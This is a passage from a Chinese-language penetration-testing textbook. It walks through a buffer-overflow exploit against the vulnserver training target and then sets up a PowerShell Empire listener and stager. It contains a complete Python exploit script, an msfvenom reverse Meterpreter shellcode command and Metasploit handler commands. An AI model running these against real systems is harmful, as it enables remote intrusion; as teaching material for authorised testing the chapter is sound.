图 10.30：成功覆盖 EIP 地址

## 识别正确的坏字符并生成 shellcode

我们的下一个任务是识别 JMP ESP 的地址，因为我们的有效载荷将被加载到 ESP 寄存器中。为此，我们将使用`mona.py`脚本，这是一个 Python 工具，可以加速在开发漏洞利用时的搜索。这个工具可以直接从[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2010/mona.py`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2010/mona.py)下载。

下载 Python 脚本后，应将其放置在 Immunity Debugger 安装位置的`PyCommands`文件夹中（`c:\program files(x86)\Immunity Inc\Immunity Debugger\Pycommands\`）。将`mona.py`脚本放入 PyCommands 后，测试人员需要重新打开 Immunity Debugger 并在 Immunity 终端中运行`!mona jmp –r esp`。这应该会显示 JMP ESP。在我们的例子中，它是`0x62501203`，如*图 10.31*所示：



图 10.31：运行 mona 以识别 JMP ESP 地址

如果 mona 的显示消失了，只需在 Immunity Debugger 的相同终端中执行`!mona help`即可将屏幕恢复过来。现在我们已经准备好创建有效载荷。

您可以使用 mona 来识别坏字符。测试人员可以利用任何公开的资料，寻找更多漏洞利用的方式。这个话题本身值得出一本书。

要在 mona 中创建默认的字节数组，可以使用`!mona bytearray`，这将生成两个名为`bytearray.txt`和`bytearray.bin`的文件，其中包含所有的坏字符。

我们将继续使用 `msfvenom` 创建一个 Windows 载荷，将 `'\x00'` 作为一个坏字符，通过在终端中运行以下命令来实现。这将生成一个 shellcode，提供一个反向 Meterpreter shell，连接到攻击者的 IP 地址：

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=<portnumber> -e x86/shikata_ga_nai -b '\x00' -f python 
```

## 获取 shell

最后，我们进入创建完整漏洞利用的最后阶段——我们只需要添加一个 NOP sled，然后溢出缓冲区并将我们的 shellcode 写入运行易受攻击应用程序服务器的系统。以下代码片段是利用易受攻击的服务器进行攻击的完整 Python 代码：

```
import socket
import struct
s = socket.socket()
s.connect(("<ServerIP>",9999))
buf =  b""
buf += b"<Add the shell code from msfvenom here>
shellcode = buf
nops = b"\x90"*16
leng = 2984
offset = 2003
eip = struct.pack("<I",0x62501203)
payload = [b"TRUN /.:/",b"A"*offset,eip,nops,shellcode,b"C"*(leng - offset - len(eip) - len(nops) - len(shellcode))]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

将最终的 Python 脚本保存为 `exploit.py`，在执行之前，确保你的监听器已在 Metasploit 中启动，可以通过在终端中运行以下命令来检查：

```
use exploit/mutli/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Your kali IP>
set lport 444
exploit -j 
```

一切已准备就绪。攻击者现在将能够使用 Python 编程执行并制作 Windows 特定的漏洞利用。下一步是从终端运行 `exploit.py`：

```
python3 exploit.py 
```

成功的漏洞利用将覆盖缓冲区并写入我们的 shellcode，然后执行它以生成一个反向 shell 到攻击者，如 *图 10.32* 所示：


图 10.32：成功的 TCP 反向 shell 来自 vulnserver

这标志着开发 Windows 特定漏洞利用的五个阶段的结束。我们将探索 PowerShell Empire 框架，攻击者可以在后期利用它进行后渗透活动。

# PowerShell Empire 框架

最初的 Empire 工具是最强大的后渗透工具之一，它基于 Python 2.7，但在过去的 3 年里进展缓慢。这个项目的同一分支被 BC-Security 接手，并活跃贡献，现在已经用 Python 3 重写，并被全球的渗透测试人员用于执行各种不同的攻击，以在渗透测试中展示系统漏洞。该工具运行 PowerShell 代理，天生具有持久性。它还利用了其他重要工具，如 `mimikatz`。在这一部分，我们将详细了解如何使用 PowerShell 的 Empire 框架。

该工具可以通过在终端中运行 `sudo apt install powershell-empire` 来安装。安装完成后，测试人员应该能够看到以下选项：


图 10.33：PowerShell Empire 主菜单

攻击者需要先运行服务器，然后再连接客户端。所以第一步是运行 `sudo powershell-empire server`，然后运行 `sudo powershell-empire client`，这将带我们进入以下界面：


图 10.34：PowerShell Empire 客户端菜单

当前的 Empire 工具大约有 393 个内置模块。下表列出了在使用 PowerShell Empire 工具时至关重要的命令，因为它类似于 Metasploit，但这些命令以其独特的方式使用：

| **命令** | **描述** |
| --- | --- |
| `agents` | 访问连接的代理列表 |
| `creds` | 向数据库添加/显示凭据 |
| `exit` | 退出帝国 |
| `help` | 显示帮助菜单 |
| `interact` | 与特定代理互动 |
| `list` | 列出活动的代理或监听器 |
| `listeners` | 与活动监听器互动 |
| `load` | 从非标准文件夹加载帝国模块 |
| `reload` | 重新加载一个（或所有）帝国模块 |
| `reset` | 重置全局选项（例如，IP 白名单） |
| `searchmodule` | 搜索帝国模块名称/描述 |
| `set` | 设置全局选项（例如，IP 白名单） |
| `show` | 显示全局选项（例如，IP 白名单） |
| `usemodule` | 使用帝国模块 |
| `usestager` | 使用帝国阶段器 |

表 10.1: PowerShell 帝国命令

帝国工具由四个重要角色组成：

+   **监听器**：这类似于 Meterpreter 监听器，等待来自被攻陷系统的连接。监听器管理提供了本地创建监听器的接口，支持不同类型—`dbx`、`http`、`http_com`、`http_foreign`、`http_hop` 和 `meterpreter`。我们将探讨 `http`。

+   **阶段器**：阶段器提供了适用于 macOS (OS X)、Windows 和其他操作系统的模块列表。这些包括 DLL 文件、宏、一行代码等，可以通过外部设备利用这些模块进行更具信息性的社会工程和物理控制台攻击。

+   **代理**：代理是连接到监听器的僵尸。所有代理都可以通过运行 `agent` 命令来访问，这将直接带我们进入代理菜单。

+   **日志记录和下载**：只有在成功连接到监听器的代理后，才能访问此部分。与 Meterpreter 类似，帝国工具允许我们通过 PowerShell 在本地机器上运行 `mimikatz` 并导出细节，以便执行更具针对性的攻击。

我们必须做的第一件事是设置本地监听器。`listeners` 命令将帮助我们跳转到监听器菜单。如果有任何活动的监听器，它们将显示出来。使用 `listener http` 命令创建监听器，如 *图 10.35* 所示：


图 10.35: 不同类型的监听器

在 PowerShell 帝国客户端终端中运行以下命令，你应该能够设置帝国监听器。

```
Uselistner http
(Empire: uselistener/http) > set Port 80
[*] Set Port to 80
(Empire: uselistener/http) > execute
[+] Listener http successfully started 
```

一旦选择了监听器，默认情况下，端口 `80` 被设置。如果你运行的是 HTTP 服务，可以通过输入 `set Port portnumber` 来更改端口号。请始终记住，Empire 工具中的所有命令都是区分大小写的。你可以使用 Tab 键功能，它会自动更正命令并提供选项。要获取起始器，请使用 `usestager multi/launcher`，然后将 `Listener` 设置为 `http`，如*图 10.36*所示，完成后即可。当我们运行 `execute` 命令时，应该会得到可以在目标机器上运行的 PowerShell 脚本：


图 10.36：成功使用起始器创建有效负载

我们已经探索了 PowerShell Empire 框架。在接下来的章节中，我们将深入了解这个工具。

# 概述

本章我们重点介绍了漏洞利用的基本原理以及将侦察结果转化为明确行动的不同工具，这些行动帮助建立测试者与目标之间正确的连接。

Kali 提供了多种工具来促进漏洞利用的开发、选择和激活，包括内部的 Exploit-DB 以及多个简化漏洞利用使用和管理的框架。我们深入研究了 MSF，并学习了如何将 Exploit-DB 中的不同类型文件编译成实际的漏洞利用。

我们还关注了如何通过识别不同的模糊测试技术来开发 Windows 漏洞利用。我们还将 shell 代码加载到自定义漏洞中。此外，我们还快速浏览了 PowerShell Empire 工具，一旦漏洞利用阶段完成，它对于渗透测试人员来说非常有用。

在下一章（*第十一章*，*目标行动与横向移动*）中，我们将学习攻击者网络杀伤链中最重要的部分，以及后期利用、权限提升、网络中的横向移动、域信任的妥协和端口转发。
